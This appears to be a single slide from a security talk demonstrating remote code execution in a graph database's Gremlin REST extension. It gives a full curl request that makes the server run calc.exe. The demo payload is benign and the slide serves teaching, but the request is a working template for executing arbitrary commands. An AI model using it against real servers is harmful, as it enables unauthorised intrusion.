

# Rest Extensions Remote Code Execution(Demo)
curl -X POST http://localhost:7474/db/data/ext/GremlinPlugin/graphdb/execute_script -d
	'{"script":"import java.lang.Runtime;rt = Runtime.getRuntime().exec(\"c:/Windows/System32/calc.exe\")", "params": {} }'
	-H "Content-Type: application/json"